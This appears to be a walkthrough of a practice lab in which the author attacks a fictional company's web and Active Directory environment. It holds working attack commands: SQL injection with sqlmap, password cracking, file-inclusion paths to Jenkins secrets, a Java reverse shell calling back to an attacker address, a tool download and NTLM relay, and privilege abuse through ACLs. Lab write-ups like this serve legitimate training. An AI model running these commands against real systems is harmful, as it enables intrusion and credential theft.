

# NovaCart



## Objective

NovaCart is an e-commerce company that operates a webshop for PC accessories. However, the entire platform is still under active development and expansion.

The IT team is currently working on a Linux-based version of the webshop as well as the development of a mobile app for NovaCart. The team is focused on adding features quickly, and has not prioritized security.

We have been tasked with conducting a penetration test to thoroughly assess the environment, identify vulnerabilities, and evaluate the overall security of the system.

## Initial Access

The client has provided with VPN access to their internal network, but no credentials.

### Open Ports

These are the Open Ports for the lab. Sometimes port 8080 can take 5 minutes to be available, so wait until 8080 is live before you start hacking :)

```bash
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5000/tcp  open  upnp
5985/tcp  open  wsman
8080/tcp  open  http-proxy
9389/tcp  open  adws
47001/tcp open  winrm
```

## Recon & Enumeration

### Rustscan

```bash
PORT      STATE    SERVICE       REASON          VERSION
53/tcp    open     domain        syn-ack ttl 126 Simple DNS Plus
80/tcp    open     http          syn-ack ttl 126 Microsoft IIS httpd 10.0
|_http-title: NovaCart | Premium PC Components & Gaming Systems
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    filtered kerberos-sec  no-response
135/tcp   open     msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open     netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open     ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: novacart.local, Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds? syn-ack ttl 126
464/tcp   open     kpasswd5?     syn-ack ttl 126
593/tcp   open     ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open     tcpwrapped    syn-ack ttl 126
3268/tcp  open     ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: novacart.local, Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped    syn-ack ttl 126
3389/tcp  filtered ms-wbt-server no-response
5000/tcp  open     http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-ntlm-info: 
|   Target_Name: NOVACART
|   NetBIOS_Domain_Name: NOVACART
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: novacart.local
|   DNS_Computer_Name: DC.novacart.local
|   DNS_Tree_Name: novacart.local
|_  Product_Version: 10.0.17763
|_http-title: 401 - Unauthorized: Access is denied due to invalid credentials.
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  NTLM
|_http-server-header: Microsoft-IIS/10.0
5985/tcp  open     http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open     mc-nmf        syn-ack ttl 126 .NET Message Framing
47001/tcp open     http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open     msrpc         syn-ack ttl 126 Microsoft Windows RPC
49665/tcp open     msrpc         syn-ack ttl 126 Microsoft Windows RPC
49666/tcp open     msrpc         syn-ack ttl 126 Microsoft Windows RPC
49668/tcp open     msrpc         syn-ack ttl 126 Microsoft Windows RPC
49670/tcp open     ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49671/tcp open     msrpc         syn-ack ttl 126 Microsoft Windows RPC
49672/tcp open     msrpc         syn-ack ttl 126 Microsoft Windows RPC
49673/tcp open     msrpc         syn-ack ttl 126 Microsoft Windows RPC
49674/tcp open     msrpc         syn-ack ttl 126 Microsoft Windows RPC
49705/tcp open     msrpc         syn-ack ttl 126 Microsoft Windows RPC
49709/tcp open     msrpc         syn-ack ttl 126 Microsoft Windows RPC

```

### Nmap

```bash
nmap -sV -sC -Pn -T4 -p- 10.1.152.183

#UDP Service Discovery: The Often-Forgotten Protocol
sudo nmap -sU --open -T5 --top-ports 200 10.1.152.183
nmap -sU -v 10.1.152.183
```

#### Key Findings

* `DC.novacart.local` `novacart.local` - Add to `/etc/hosts`
* Web Services (80 & 5000)
* Remote Management (5985)
* Ports **389 (LDAP)** and **3268 (Global Catalog)** are open, confirming its role as a DC
* As a rule, we test all open ports and services that are provided to us

### **DNS Zone Transfer - port 53**

```bash
dig axfr shadow.gate @10.1.152.183
```

.png>)

### Web Services (80 & 5000)

### Enumerate Web

#### **Fingerprinting with `curl`**

```bash
curl -I 10.1.152.183
curl -I 10.1.152.183:5000
```

.png>)

#### **Technology Stack Identification**

```bash
whatweb http://10.1.152.183
whatweb http://10.1.152.183:5000

nikto -h http://10.1.152.183
nikto -h http://10.1.152.183:5000

#Wapalazaa
```

.png>)

#### **Directory Bruteforcing**

```bash
dirsearch -u http://10.1.152.183 -t 5

feroxbuster -u http://10.1.152.183/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -r 

ffuf -w /usr/share/wordlists/dirb/common.txt -u http://novacart.local/FUZZ -mc 200,301,302
#Fuzzing for extension
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://novacart.local/FUZZ -e .php,.txt,.bak,.zip
```

_**PORT 80**_


#### **Subdomains and Virtual Hosts**

```bash
./vhost-fuzzer.sh novacart.local /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://orbitdesk.local 91

ffuf -u http://10.1.152.183 -w  /usr/share/seclists//Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.http://10.1.152.183"
```


### Web functionalities

_**Port 80**_


* We can see `search.aspx?q=cpu`, and we immediately think to test for \*\*`input validation**.`
* My to gos are:
  * SQL Injection (SQLi)
  * Reflected Cross-Site Scripting (XSS)
  * Command injection

```bash
'OR 1=1' OR 1

```


* This confirms the `q` parameter is **vulnerable to SQL Injection (SQLi)**

_**Port 5000**_


* `http://10.1.152.183:5000` requires credentials which we do not have at the moment.
* We need to work with SQL for now on port 80

### SQL Injection (SQLi) - 80

```bash
sqlmap -r request.txt --dbs
sqlmap -r request.txt --level 5 --risk 3 --batch

#Shell
sqlmap -r request.txt --os-shell

#Bypassing WAF
sqlmap -list-tampers
sqlmap -r request.txt --tamper="file" --dbs

```


* Can confirm **4 available databases**
* `model`, `msdb`, `tempdb`: Standard system databases for MSSQL
* **`NovaCart`**: This is the target. This is the custom application database where user credentials, orders, and configuration details are likely stored.

_**List the Tables in\*\*\*\* \*\*\*\*****`NovaCart`**_

```bash
sqlmap -r request.txt -D **NovaCart** --tables
```


* **`users`** is a High-Value Target.
* This likely contains the credentials needed to move toward port 5000 or general domain access.

_**List the columns in the\*\*\*\*****&#x20;****`users`****&#x20;****\*\*\*\*table**_

```bash
sqlmap -r request.txt -D NovaCart -T users --columns --batch
```


_**Dump the data**_

```bash
sqlmap -r request.txt -D NovaCart -T users --dump
```


* Obtained a list of password\_hashes and can confirm that they are salted with `:jb45`
*   In Hashcat, every algorithm has a specific code. For `**SHA256(Password.Salt)**` or **`SHA256(Salt.Password)`**

    * **Mode 1410:** `sha256($pass.$salt)`
    * **Mode 1420:** `sha256($salt.$pass)`

    ```bash
    hashcat -m 1410 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
    hashcat -m 1420 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt -O
    ```

    

    *   Managed to crack hashes for

        ```bash
        j.paul:REDACTED
        d.barowski:REDACTED
        ```

#### Validating the Credentials


* `j.paul` and `d.barowski` have valid credentials and **READ** access to the `Shares` directory on the Domain Controller
*   Okay now that we have valid credentials, there are a lot that we could do

    * Run bloodhound to loot data
    * Enumerating the shares
    * Enumerate for other usernames
    * Testing other services
    * Checking for quick wins

    _**As best a practice, always check for the following:**_

    * Enumerating other users
    * Enumerating for pre-created computer accounts
    * Enumerating for `certificate services`
    * Enumerating for `ZeroLOgon`
    * Enumerating for `Kerberoasting` and `AS-REP` - We can also get this from `Bloodhound`
    * Enumerating for `gpp_autologin`

    NB - Sometimes not necessary but worth digging into.

    I have created this tool that can streamline everything at once https://github.com/RedBlue-Frank/RedBlue\_Frank\_Enum.sh

    .png>)

    .png>)

    .png>)

    * We have obtained useful information from our script, usernames, bloodhound loot and shares etc
    * First i want to look into the shares..

```bash
nxc smb 10.1.152.183 -u j.paul -p 'REDACTED' --shares
smbclient \\\\10.1.152.183\\Shares -U j.paul
```

.png>)

.png>)


* Discovered a lot of contents and **`web.config`** and **`ticket_102_autologon_cleanup.txt`** are the highest priority targets right now.
* In `web.config` mostly looking for `machineKey` , `connectionStrings`, **`PasswordFormat`**
* Check the Tickets for Hardcoded Credentials
  * **`ticket_102_autologon_cleanup.txt`**: Autologon usually implies a password stored in the registry or a script. Check this for any mention of a service account password.
  * **`ticket_101_jenkins_config.txt`**: Jenkins often stores secrets in `credentials.xml` or uses a master key. This ticket might tell you where the Jenkins home directory is.
* Review the `.aspx` Files for keys words like passwords,creds,conn,eval

#### Share Findings

.png>)

.png>)

.png>)


_**file:///home/kali/Hacksmarter.lab/NovaCart/backup.evtx**_

```bash
Log Name:      Application
Source:        Microsoft-IIS-Backup
Date:          12/23/2025 18:42:11
Event ID:      4096
Task Category: Backup
Level:         Information
Keywords:      Classic
User:          NT AUTHORITY\SYSTEM
Computer:      DC.novacart.local

Description:
Scheduled file-level backup operation started successfully.

Log Name:      Application
Source:        Microsoft-IIS-Backup
Date:          12/23/2025 18:42:14
Event ID:      4097
Task Category: Backup
Level:         Information
User:          NT AUTHORITY\SYSTEM
Computer:      DC.novacart.local

Description:
Initial directory enumeration completed successfully.

============================================================
IIS APPLICATION SERVER – NovaCart-API (Port 5000)

Log Name:      Application
Source:        Microsoft-IIS-Backup
Date:          12/23/2025 18:42:21
Event ID:      4098
Task Category: Backup
Level:         Information
User:          NT AUTHORITY\SYSTEM
Computer:      DC.novacart.local

Description:
Directory backup completed successfully.

Directory: C:\inetpub\status
IIS Site Name: NovaCart-API
Application Pool: NovaCartAPIAppPool
Binding: http/*:5000:
Service Port: 5000
Web application files detected and copied.

Log Name:      Application
Source:        Microsoft-IIS-Backup
Date:          12/23/2025 18:42:33
Event ID:      4101
Task Category: Backup
Level:         Warning
User:          NT AUTHORITY\SYSTEM
Computer:      DC.novacart.local

Description:
File copy operation failed during backup.

File Path: C:\inetpub\status\index.html
IIS Site Name: NovaCart-API
Application Pool: NovaCartAPIAppPool
Binding: http/*:5000:
Service Port: 5000

Error Code: 0x80070017
Error Description: Data error (cyclic redundancy check).
The file appears to be corrupted or unreadable.

============================================================
IIS WEB SERVER – Default Web Site (Port 80)

Log Name:      Application
Source:        Microsoft-IIS-Backup
Date:          12/23/2025 18:42:41
Event ID:      4099
Task Category: Backup
Level:         Information
User:          NT AUTHORITY\SYSTEM
Computer:      DC.novacart.local

Description:
Directory backup completed successfully.

Directory: C:\inetpub\wwwroot
IIS Site Name: Default Web Site
Application Pool: DefaultAppPool
Binding: http/*:80:
Service Port: 80
Web root content copied successfully.

============================================================
BACKUP SUMMARY

Log Name:      Application
Source:        Microsoft-IIS-Backup
Date:          12/23/2025 18:43:02
Event ID:      4102
Task Category: Backup
Level:         Warning
User:          NT AUTHORITY\SYSTEM
Computer:      DC.novacart.local

Description:
Scheduled backup completed with warnings.

Backup Result: Completed with warnings
Affected Files: 1

Affected Service:
- NovaCart-API (Port 5000)

Action Required:
Verify file integrity of the affected application file and
retry the backup operation for failed items.
```

_**file:///home/kali/Hacksmarter.lab/NovaCart/Backup-Jenkins-Failure.evtx**_

```bash
Log Name:      Application
Source:        NovaCart-BackupService
Date:          31.12.2025 03:18:42
Event ID:      4102
Task Category: Backup
Level:         Error
Keywords:      Classic
User:          NT AUTHORITY\SYSTEM
Computer:      JENKINS01.novacart.local

Description:
Backup operation failed for directory:
C:\ProgramData\Jenkins\

The backup process could not be completed because one or more files
were in use by a running service at the time of execution.

---

Log Name:      Application
Source:        NovaCart-BackupService
Date:          31.12.2025 03:18:42
Event ID:      4103
Task Category: Backup
Level:         Warning
User:          NT AUTHORITY\SYSTEM

Description:
The following files were detected but could not be safely backed up
due to active file locks:

C:\ProgramData\Jenkins\jenkins.err.log
C:\ProgramData\Jenkins\jenkins.out.log
C:\ProgramData\Jenkins\Jenkins.war

The Jenkins service was running during the scheduled backup window.

---

Log Name:      Application
Source:        NovaCart-BackupService
Date:          31.12.2025 03:18:43
Event ID:      4104
Task Category: Backup
Level:         Information

Description:
The following files were successfully enumerated prior to backup failure:

C:\ProgramData\Jenkins\jenkins.exe
C:\ProgramData\Jenkins\jenkins.exe.config
C:\ProgramData\Jenkins\jenkins.ini
C:\ProgramData\Jenkins\jenkins.wrapper.log
C:\ProgramData\Jenkins\jenkins.xml
C:\ProgramData\Jenkins\Update-JenkinsVersion.ps1

---

Log Name:      Application
Source:        NovaCart-BackupService
Date:          31.12.2025 03:18:44
Event ID:      4105
Task Category: Backup
Level:         Error

Description:
Backup job aborted.

Reason:
The Jenkins service was still running at the time of backup execution.
Active file locks prevented a consistent backup from being created.

No backup archive was generated.
No restore point is available for this execution.

---

Log Name:      Application
Source:        Service Control Manager
Date:          31.12.2025 02:35:01
Event ID:      7036
Level:         Information

Description:
The Jenkins service entered the Running state.

```

#### Findings

* High-Value Target: `j.bronski` Jan Bronski is a **Senior DevOps Engineer**. In AD environments, Senior DevOps accounts often have massive privileges, likely including local admin on server clusters or even Domain Admin rights.
* The `AutoLogon` Lead (Ticket 102) `j.dillon`'s credentials from the registry, the AutoLogon configuration on the Domain Controller is still present.
  * Windows AutoLogon often stores credentials in the registry in **plain text** or easily reversible formats.
  * HKEY\_LOCAL\_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
* Now lets take a step back and dive into bloodhound data for better visibility.

## Bloodhound enumeration


* The user `D.BAROWSKI@NOVACART.LOCAL` has generic write access to the user `J.BRONSKI@NOVACART.LOCAL`.
* From our share findings - High-Value Target: `j.bronski` Jan Bronski is a **Senior DevOps Engineer**. In AD environments, Senior DevOps accounts often have massive privileges, likely including local admin on server clusters or even Domain Admin rights.


* `j.bronski` is a member of Webap\_operators


* The user `M.BROWN@NOVACART.LOCAL` is a member of the group `SERVICE DELEGATION ADMINS@NOVACART.LOCAL.`
* Groups in active directory grant their members any privileges the group itself has. If a group has rights to another principal, users/computers in the group, as well as other groups inside the group inherit those permissions.


* The user `M.BROWN@NOVACART.LOCAL` has the constrained delegation permission to the computer `DC.NOVACART.LOCAL.`
* The constrained delegation primitive allows a principal to authenticate as any user to specific services (found in the msds-AllowedToDelegateTo LDAP property in the source node tab) on the target computer. That is, a node with this permission can impersonate any domain principal (including Domain Admins) to the specific service on the target host. One caveat- impersonated users can not be in the "Protected Users" security group or otherwise have delegation privileges revoked.
* An issue exists in the constrained delegation where the service name (sname) of the resulting ticket is not a part of the protected ticket information, meaning that an attacker can modify the target service name to any service of their choice. For example, if msds-AllowedToDelegateTo is "HTTP/host.domain.com", tickets can be modified for LDAP/HOST/etc. service names, resulting in complete server compromise, regardless of the specific service listed.


* From share findings - The `AutoLogon` Lead (Ticket 102) `j.dillon`'s credentials from the registry, the **AutoLogon configuration on the Domain Controller is still present.**
* Anything that `HasSession` always think `Remote Potato`


* Most promising pathway
*   REMEMBER we still have not looked into port 5000 below that needed creds

    
* since `j.brown` is a member of `Webapp_operations`, we might pivot with his creds.

#### Bloodhound Mind Mapping

* The user `D.BAROWSKI@NOVACART.LOCAL` has generic write access to the user `J.BRONSKI@NOVACART.LOCAL`
* `j.bronski` is a member of `Webapp_operators` and if we compromise it, we might potentially manage to navigate to the web at port 5000.
* The user `M.BROWN@NOVACART.LOCAL` is a member of the group `SERVICE DELEGATION ADMINS@NOVACART.LOCAL and falls under All kerberos users`
* The user `M.BROWN@NOVACART.LOCAL` has the constrained delegation permission to the computer `DC.NOVACART.LOCAL.`
* The computer `DC.NOVACART.LOCAL` has the `DS-Replication-Get-Changes` and the `DS-Replication-Get-Changes-All` permission on the domain `NOVACART.LOCAL`.
* From share findings - The `AutoLogon` Lead (Ticket 102) `j.dillon`'s credentials from the registry, the **AutoLogon configuration on the Domain Controller is still present.** Anything that HasSession always think `Remote Potato` to get the users NTLM hash
* The user `J.DILLON@NOVACART.LOCAL` has the ability to modify the owner of the group IT `HELPDESK@NOVACART.LOCAL.` There for, The members of the group `IT HELPDESK@NOVACART.LOCAL` have the capability to change the user `L.THOMPSON@NOVACART.LOCAL's` password without knowing that user's current password. The user `L.THOMPSON@NOVACART.LOCAL` is a member of the group `REMOTE MANAGEMENT USERS@NOVACART.LOCAL.`

NB - _**WE SHALL TRY AND PERFORM ALL OF THE ABOVE ATTACK VECTORS TO COMPROMISE THE DOMAIN**_

#### Compromising `M.BROWN@NOVACART.LOCAL`


* The user `M.BROWN@NOVACART.LOCAL` is a member of the group `SERVICE DELEGATION ADMINS@NOVACART.LOCAL and falls under All kerberos users`
* The user `M.BROWN@NOVACART.LOCAL` has the constrained delegation permission to the computer `DC.NOVACART.LOCAL.`
* The computer `DC.NOVACART.LOCAL` has the `DS-Replication-Get-Changes` and the `DS-Replication-Get-Changes-All` permission on the domain `NOVACART.LOCAL`.

https://github.com/TeneBrae93/offensivesecurity/tree/main/active-directory


```bash
**hashcat -m 13100 m_brown.txt /usr/share/wordlists/rockyou.txt**
```

.png>)

* Failed to crack the hash.
* We can move on

#### Compromising `J.BRONSKI@NOVACART.LOCAL`

```bash
targetedKerberoast.py -v -d 'novacart.local' -u 'D.BAROWSKI' -p 'REDACTED'
```

.png>)

```bash
hashcat -m 13100 -a0 TK.txt /usr/share/wordlists/rockyou.txt
```

.png>)

*   Successfully obtained `J.BRONSKI` password

    ```bash
    nxc smb 10.1.152.183 -u J.BRONSKI -p 'REDACTED' --shares
    ```

    .png>)

    * Valid creds
    *   `j.bronski` is a member of `Webapp_operators` and if we compromise it, we might potentially manage to navigate to the web at port 5000

        .png>)

        .png>)

        

        * **NovaCart** CI/CD management server.
        * **Jenkins:** Version 2.528.3, running on port **8080**
        * Running under the context of `svc_jenkins`

        

        * The user `SVC_JENKINS@NOVACART.LOCAL` has a session on the computer `DC.NOVACART.LOCAL.`
        * When a user authenticates to a computer, they often leave credentials exposed on the system, which can be retrieved through LSASS injection, token manipulation/theft, or injecting into a user's process.
        * Any user that is an administrator to the system has the capability to retrieve the credential material from memory if it still exists.
        * WE SHALL COME BACK TO JENKINS IF WE FIND `SVC_JENKINS` CREDENTIALS
        *   BUT WAIT A MINUTE

            

            * Upon clicking `IT Team Management Portal` we can observe the endpoint `?file=` which is rich for `Local file inclusion`
            * And since the **NovaCart** CI/CD management server exposed jenkins, we might want to look for jenkins credentials
        *   Confirming LFI

            ```bash
            ?file=../../../../../../../../Windows/win.ini
            ```

            

            ```bash
            ?file=../../../../../../ProgramData/Jenkins/credentials.xml
            ?file=../../../../../../ProgramData/Jenkins/secrets/master.key
            ?file=../../../../../../ProgramData/Jenkins/secrets/hudson.util.Secret
            ?file=../../../../../../ProgramData/Jenkins/jenkins.ini

            ```

            

            * Obtained Creds for jenkins account auth

            

        Jenkins scripts

        ```bash
        def cmd = 'cmd.exe /c whoami'
        def sout = new StringBuffer(), serr = new StringBuffer()
        def proc = cmd.execute()
        proc.consumeProcessOutput(sout, serr)
        proc.waitForOrKill(1000)
        println sout
        println serr
        ```

        

        Revershell

        ```bash
        String host="10.200.56.38";
        int port=4444;
        String cmd="cmd.exe";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()){
            while(pi.available()>0)so.write(pi.read());
            while(pe.available()>0)so.write(pe.read());
            while(si.available()>0)po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){}
        };
        p.destroy();
        s.close();
        ```

        

        

        

        * We need to collect the Decryption Materials
        * To recover the cleartext passwords, you need to pull these three items from your current shell:
        * **Master Key:**`type C:\Users\svc_jenkins\AppData\Local\Jenkins\.jenkins\secrets\master.key`
        *   **Hudson Secret:** (This is a binary file; it may appear as garbled text or symbols in your terminal) `type C:\Users\svc_jenkins\AppData\Local\Jenkins\.jenkins\secrets\hudson.util.Secret`

            

        _**Locating User Credentials**_

        

        * Nothing really stands out here

    Upon googling, i came across this article https://www.hackingarticles.in/credential-dumping-windows-autologon-password/

    

    

    * `netpass.exe` found **zero entries** in the credential vault of the `svc_jenkins` user
    * Since `netpass` didn't yield any results under this service account, it confirms that the target credentials aren't in the local vault.

_**Checking the System Configuration Natively**_

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" | Select-Object AutoAdminLogon, DefaultUserName, DefaultPassword, DefaultDomainName
```


* The registry query confirms that `AutoAdminLogon` is enabled (`1`) for the user **`j.dillon`** within the `NOVACART` domain, but the plaintext `DefaultPassword` field is empty
* When Windows has `AutoAdminLogon` enabled but the password isn't visible here, it typically means it has been stored securely elsewhere in the system.
* That usually also means one of these:
  * password stored as an LSA secret instead
  * password was cleaned up but autologon left enabled
  * Sysinternals Autologon was used
  * credentials stored via DPAPI/LSA protection
* _**Okay we have tried something different but did not work hence as mentioned before whenever a user has a session we think\*\*\*\*****&#x20;****`remote potato`****&#x20;****\*\*\*\*to get the users NTLM hash**_

#### Compromising j.dillon

https://github.com/antonioCoco/RemotePotato0


* This is all we need to run remote potato

```bash
#Transfering to Windows target
powershell -c "Invoke-WebRequest -Uri http://10.200.56.38/RemotePotato0.exe -OutFile RemotePotato0.exe"

# Setting up a listener- socat kali
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.1.152.183:9999

# RUn 
.\RemotePotato0.exe -m 2 -s 1 -x 10.200.56.38 -p 9999

10.200.56.38 vpn
10.1.152.183 ip a

```


*   We are successful. Lets crack the hash

    ```bash
    hashcat -a0 -m5600 dillonH.txt /usr/share/wordlists/rockyou.txt 
    ```

    

    * BOOOM we are successful
    *   Now that we have compromise `j.dillon` , lets continue with our Bloodhound mind mapping

        * The computer `DC.NOVACART.LOCAL` has the `DS-Replication-Get-Changes` and the `DS-Replication-Get-Changes-All` permission on the domain `NOVACART.LOCAL`.
        * From share findings - The `AutoLogon` Lead (Ticket 102) `j.dillon`'s credentials from the registry, the **AutoLogon configuration on the Domain Controller is still present.** Anything that HasSession always think `Remote Potato` to get the users NTLM hash
        * The user `J.DILLON@NOVACART.LOCAL` has the ability to modify the owner of the group IT `HELPDESK@NOVACART.LOCAL.` There for, The members of the group `IT HELPDESK@NOVACART.LOCAL` have the capability to change the user `L.THOMPSON@NOVACART.LOCAL's` password without knowing that user's current password. The user `L.THOMPSON@NOVACART.LOCAL` is a member of the group `REMOTE MANAGEMENT USERS@NOVACART.LOCAL.`

        

        * The user `J.DILLON@NOVACART.LOCAL` has the ability to modify the owner of the group `IT HELPDESK@NOVACART.LOCAL.`
        * I will use this tool for this https://github.com/lineeralgebra/autobloodyAD

        

        

        * Now that j.dillon is part of `IT HELPDESK@NOVACART.LOCAL,` we ca now compromise `L.THOMPSON@NOVACART.LOCAL`
        * We can change his password now that `j.dillon` has generic all permissions

#### Compromising `L.THOMPSON@NOVACART.LOCAL`

From our Bloodhound Mind Mapping:

* The user `J.DILLON@NOVACART.LOCAL` has the ability to modify the owner of the group IT `HELPDESK@NOVACART.LOCAL.` There for, The members of the group `IT HELPDESK@NOVACART.LOCAL` have the capability to change the user `L.THOMPSON@NOVACART.LOCAL's` password without knowing that user's current password. The user `L.THOMPSON@NOVACART.LOCAL` is a member of the group `REMOTE MANAGEMENT USERS@NOVACART.LOCAL.`


* Successfully compromised `l.thompson`
* Now we can rdp or use evil-winrm

```bash
evil-winrm -i 10.1.152.183 -u L.THOMPSON -p RedBlue777
xfreerdp3 /v:10.1.152.183 /u:L.THOMPSON /p:'RedBlue777' +clipboard /dynamic-resolution /drive:$(pwd),share
```


* `STATUS_ACCOUNT_DISABLED` means that the account itself is locked or disabled in Active Directory
*   Lets confirm this

    ```bash
    bloodyAD --host DC.novacart.local -d novacart.local -u j.dillon -p REDACTED get object "l.thompson"
    ```

    

**Enumerating `j.dillon`** ACLs to check if we have rights to enable the **`l.thompson`** account

```bash
bloodyAD --host DC.novacart.local -d novacart.local -u j.dillon -p 'REDCATED' get writable
bloodyAD --host DC.novacart.local -d novacart.local -u d.barowski -p 'REDACTED' get writable
```


* `j.dillon` can only write to IT Helpdesk


* `d.barowski` can write to `l.thompson`

_**Enabling the account**_


```bash
evil-winrm -i 10.1.152.183 -u L.THOMPSON -p RedBlue777
xfreerdp3 /v:10.1.152.183 /u:L.THOMPSON /p:'RedBlue777' +clipboard /dynamic-resolution /drive:$(pwd),share
```

#### USER - FLAG

```bash
Get-ChildItem -Path C:\ -Include '*user.flag' -File -Recurse -ErrorAction SilentlyContinue | ForEach-Object { "=== $($_.FullName) ==="; Get-Content -Raw -Encoding UTF8 $_.FullName }
```


## Priviledge escalation


* We can not access other users


* We can use the `-force` to enumerate for hidden directories
* We have discovered some interesting `Recycle.Bin`, Program data
  * We have already looked into SQL2019

_**Just as in HTB Cascade , Voluer and TombWatcher, The AD Recyclebin is enabled here:**_

```bash
*Evil-WinRM* PS C:\> Get-ADOptionalFeature 'Recycle Bin Feature'

DistinguishedName  : CN=Recycle Bin Feature,CN=Optional Features,CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=novacart,DC=local
EnabledScopes      : {}
FeatureGUID        : 766ddcd8-acd0-445e-f3b9-a7f9b6744f2a
FeatureScope       : {ForestOrConfigurationSet}
IsDisableable      : False
Name               : Recycle Bin Feature
ObjectClass        : msDS-OptionalFeature
ObjectGUID         : 62fed5b2-38aa-4ee3-879d-c78d85d8f6c8
RequiredDomainMode :
RequiredForestMode : Windows2008R2Forest
```


Listing deleted items,

```bash
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property objectSid,lastKnownParent
```


* Since the Recycle bin was hidden, we can also manually enumerate it


* we have located a deleted user recycle bin containing an email snapshot (`.eml`) and several configuration or structural deployment files (`.xml`).
* Files starting with **`$R`** contain the actual contents of the deleted file.
* Files starting with **`$I`** contain the deletion metadata (original file path, deletion timestamp, size).
* The two largest and most valuable files to check right now are **`$RXJMTOZ.eml`** (the deleted email) and **`$RY0735O.xml`** (the larger XML payload). These likely contain the exact contextual information or legacy setup data you're chasing.

_**Read the Deleted Email File**_


* We recovered plaintext credentials from a deleted KeePass export for `[m.hughes](http://m.hughes)` , `cliff.b` , `j.clark`

_**Confirming the creds**_

```bash
nxc smb 10.1.152.183 -u m.hughes -p 'REDACTED'
nxc smb 10.1.152.183 -u cliff.b -p 'REDACTED'
nxc smb 10.1.152.183 -u j.clark -p 'REDACTED'
```


* All the recovered creds do work
* Now we can look into these users to check what they can do


* [`M.hughes`](http://m.hughes) doesnt have any interesting thing yet.


* `j.clark` doesnt have anything interest yet also


* domain `NOVACART.LOCAL` contains the OU DEV `OPS@NOVACART.LOCAL.`
* The `GPO DEFAULT DOMAIN POLICY@NOVACART.LOCAL` is linked to the domain `NOVACART.LOCAL`.
* A linked GPO applies its settings to objects in the linked container.


#### Cliff Mind Mapping

* Having `GenericAll` over an **Organizational Unit** means you can manipulate the container itself and the objects inside it if permissions inherit down.
* We can move high-value computer accounts or user accounts into the `DEV OPS` OU, or create new malicious objects directly inside it.
* Because we control the OU, we can link an existing, malicious, or rogue GPO directly to `DEV OPS`. If you can find a GPO that you _do_ have write permissions to elsewhere in the domain, link it here to immediately apply it to all users/computers residing inside `DEV OPS`.
* Since the OU doesn't contain any hidden high-value service accounts or computers, and the users are complete dead ends, we \*\*\*\*cannot progress further purely through object DACL inheritance or targeting these users.
* However, because `cliff.b` have `GenericAll` over the `DEV OPS` OU itself, we have a distinct operational privilege that we \*\*\*\*can modify its **`gPLink` attribute**.
*   However, we have remote permissions with the user cliff.b

    ```bash
    evil-winrm -i 10.1.152.183 -u cliff.b -p 'REDACTED'

    ```

    

    

    * This outlines a classic COM-based Scheduled Task hijacking or abuse vector designed to escalate privileges within the domain.
    * The administrator explicitly mentions that running the scripts above, triggers a scheduled task using COM, which then modifies ACL permissions to grant Write All Properties (or similar high-level rights) over an OU likely giving the control you need to move forward.

    

    

    

    * `Configure-OUDelegation.ps1` triggers a SYSTEM-level scheduled task that modifies permissions on the Senior Dev Ops OU
